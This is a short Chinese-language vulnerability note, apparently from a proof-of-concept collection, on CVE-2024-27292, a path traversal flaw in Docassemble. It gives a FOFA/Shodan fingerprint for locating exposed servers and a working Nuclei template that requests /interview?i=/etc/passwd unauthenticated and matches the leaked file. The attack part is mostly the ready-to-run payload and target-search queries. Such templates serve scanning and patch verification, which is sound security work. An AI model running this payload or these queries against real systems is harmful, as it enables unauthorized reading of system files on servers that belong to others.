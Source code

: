 ## Docassemble任意文件读取漏洞(CVE-2024-27292)

Docassemble V1.4.96 未经身份验证的路径遍历

## fofa

```
icon_hash="-575790689"
```

## poc

```yaml
id: CVE-2024-27292

info:
  name: Docassemble - Local File Inclusion
  author: johnk3r
  severity: high
  description: |
    Docassemble is an expert system for guided interviews and document assembly. The vulnerability allows attackers to gain unauthorized access to information on the system through URL manipulation. It affects versions 1.4.53 to 1.4.96. The vulnerability has been patched in version 1.4.97 of the master branch.
  reference:
    - https://tantosec.com/blog/docassemble/
    - https://github.com/jhpyle/docassemble/security/advisories/GHSA-jq57-3w7p-vwvv
    - https://github.com/jhpyle/docassemble/commit/97f77dc486a26a22ba804765bfd7058aabd600c9
  classification:
    cvss-metrics: CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N
    cvss-score: 7.5
    cve-id: CVE-2024-27292
    cwe-id: CWE-706
    epss-score: 0.00043
    epss-percentile: 0.0866
  metadata:
    verified: true
    max-request: 1
    shodan-query: http.title:"docassemble"
    fofa-query: icon_hash="-575790689"
  tags: cve,cve2024,docassemble,lfi

http:
  - method: GET
    path:
      - "{{BaseURL}}/interview?i=/etc/passwd"

    matchers-condition: and
    matchers:
      - type: regex
        regex:
          - "root:.*:0:0:"

      - type: status
        status:
          - 501
```

![image-20240705163642789](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202407051636890.png)

## 漏洞来源

- https://github.com/projectdiscovery/nuclei-templates/pull/10169/files
- https://github.com/th3gokul/CVE-2024-27292